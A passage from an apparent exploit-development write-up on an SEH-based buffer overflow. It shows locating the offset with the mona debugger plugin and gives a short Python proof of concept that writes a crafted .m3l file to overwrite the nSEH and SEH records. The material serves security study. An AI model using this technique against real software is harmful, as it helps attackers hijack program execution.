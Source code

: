 Screenshot of the current PoC:

![](/assets/img/Findings6/5.png)

With the command ```!mona findmsp``` the offset may be found:

![](/assets/img/Findings6/7.png)

Next step is to verify wether the offset is correct. However, instead of using 4 characters for nSEH and SEH, 2 must be used, as they will be separated with a null character by its nature.

Current poc:

```
buffer = "A" * 536 + "BB" + "CC"

f = open ("poc.m3l", "w")

f.write(buffer)

f.close()
```

Once the process is repeated, the SEH values are overwritten as intended:

![](/assets/img/Findings6/8.png)
